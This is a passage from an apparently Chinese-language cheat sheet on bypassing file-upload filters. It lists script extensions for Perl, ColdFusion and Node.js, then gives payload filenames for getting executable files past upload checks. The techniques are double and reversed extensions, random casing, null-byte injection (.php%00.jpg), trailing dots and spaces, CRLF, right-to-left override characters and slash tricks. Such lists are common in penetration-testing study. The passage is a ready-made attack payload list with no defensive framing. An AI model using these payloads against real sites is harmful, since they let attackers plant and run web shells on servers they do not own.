 **Perl**

```
.pl, .pm, .cgi, .lib
```

**Coldfusion**

```
.cfm, .cfml, .cfc, .dbm
```

**Node.js**

```
.js, .json, .node
```

## 上传技巧

**双扩展名绕过**

```
.jpg.php
.png.php5
```

**反向双扩展**

```
.php.jpg
利用apache错误配置，具有任何php扩展，但不一定以.php扩展结尾的内容都将执行代码
```

**随机大写或随机小写**

```
.pHp
.pHP5
.PhAr
```

**空字节(适用于pathinfo())**

```
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

**特殊字符**

```
file.php........
//在windows中，文件末尾带有点时，这些点将被删除
file.php%20
file.php%0d%0a.jpg
file.php%0a
//空格和换行符
name.%E2%80%AEphp.jpg  ==> name.jpg.php
%E2%80%AE ==> LRE进行unicode编码的形式，作为一个控制字符出现
//从右到左覆盖(RTLO)
file.php/, file.php.\, file.j\sp, file.j/sp
//斜杠
file.jsp/././././.
//多个字符组合
```
